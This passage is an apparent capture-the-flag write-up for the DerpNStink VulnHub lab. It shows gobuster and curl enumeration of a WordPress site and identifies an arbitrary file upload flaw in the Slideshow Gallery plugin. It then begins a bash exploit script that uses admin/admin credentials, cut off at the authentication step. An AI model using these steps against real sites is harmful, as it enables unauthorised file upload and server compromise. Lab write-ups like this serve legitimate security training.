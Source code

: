 I'm able to find these directories with `gobuster` and `/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt`.

```
Gobuster v1.2                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://192.168.10.130/
[+] Threads      : 10
[+] Wordlist     : /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes : 204,301,302,307,200
[+] Expanded     : true
=====================================================
http://192.168.10.130/weblog (Status: 301)
http://192.168.10.130/php (Status: 301)
http://192.168.10.130/css (Status: 301)
http://192.168.10.130/js (Status: 301)
http://192.168.10.130/javascript (Status: 301)
http://192.168.10.130/temporary (Status: 301)
=====================================================
```

Both `/php` and `/temporary` are already in `robots.txt`.

It appears that `/weblog` is the root directory for WordPress, and there's a need to place the FQDN `derpnstink.local` in `/etc/hosts` as seen in the redirection below.

```
curl -i 192.168.10.130/weblog/
HTTP/1.1 301 Moved Permanently
Date: Tue, 27 Mar 2018 10:13:50 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.22
X-Pingback: http://derpnstink.local/weblog/xmlrpc.php
Location: http://derpnstink.local/weblog/
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```

There's another hint from `/webnotes/info.txt` to do likewise.

```
<-- @stinky, make sure to update your hosts file with local dns so the new derpnstink blog can be reached before it goes live -->
```

## Slideshow Gallery < 1.4.7 Arbitrary File Upload

I list down all the plugins installed in WordPress with `wpscan`, and I find a particular version (1.4.6) of the Slideshow Gallery plugin that has an arbitrary file upload [vulnerability](https://www.exploit-db.com/exploits/34514/).

I wrote `upload.sh`, a `bash` script to exploit the vulnerability, and to upload files.

<div class="filename"><span>upload.sh</span></div>
```bash
#!/bin/bash

HOST=derpnstink.local
BLOG=weblog
USER=admin
PASS=$USER
VULN="wp-admin/admin.php?page=slideshow-slides&method=save"
FILE=$1

# authenticate
curl \
    -s \
```

[1]: https://www.vulnhub.com/entry/derpnstink-1,221/
[2]: https://twitter.com/@securekomodo
[3]: https://www.vulnhub.com